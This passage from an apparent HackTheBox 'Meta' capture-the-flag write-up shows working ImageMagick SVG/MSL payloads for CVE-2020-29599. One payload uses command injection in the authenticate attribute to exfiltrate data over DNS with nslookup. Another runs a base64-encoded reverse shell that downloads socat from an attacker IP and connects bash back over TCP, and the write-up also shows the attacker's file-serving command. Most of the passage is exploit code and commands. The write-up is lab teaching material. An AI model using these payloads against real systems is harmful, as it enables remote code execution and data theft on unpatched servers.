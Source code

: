 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Meta/images/Pasted%20image%2020230816163728.png)

**`cve-2020-29599-nslookup-dnsbased.svg`:**
```xml
<image authenticate='ff" `nslookup $(whoami).pdf-shell-inj-cve-2020-29599.TARGET_DOMAIN`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

This SVG payload leverages one of the out-of-band exfiltration technique, DNS exfiltration, via exploiting the `-authenticate` option.

- Create a `poc.svg` SVG payload, and modify the command to a reverse shell payload:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|17:23:03(HKT)]
└> echo -n "wget http://10.10.14.19/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP:10.10.14.19:53 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane" | base64 -w0
d2dldCBodHRwOi8vMTAuMTAuMTQuMTkvc29jYXQgLU8gL3RtcC9zb2NhdDsgY2htb2QgK3ggL3RtcC9zb2NhdDsgL3RtcC9zb2NhdCBUQ1A6MTAuMTAuMTQuMTk6NTMgRVhFQzonL2Jpbi9iYXNoJyxwdHksc3RkZXJyLHNldHNpZCxzaWdpbnQsc2FuZQ==
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Meta)-[2023.08.16|17:23:23(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/linux/x86_64 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```xml
<image authenticate='ff" `echo "d2dldCBodHRwOi8vMTAuMTAuMTQuMTkvc29jYXQgLU8gL3RtcC9zb2NhdDsgY2htb2QgK3ggL3RtcC9zb2NhdDsgL3RtcC9zb2NhdCBUQ1A6MTAuMTAuMTQuMTk6NTMgRVhFQzonL2Jpbi9iYXNoJyxwdHksc3RkZXJyLHNldHNpZCxzaWdpbnQsc2FuZQ==" | base64 -d | /bin/bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
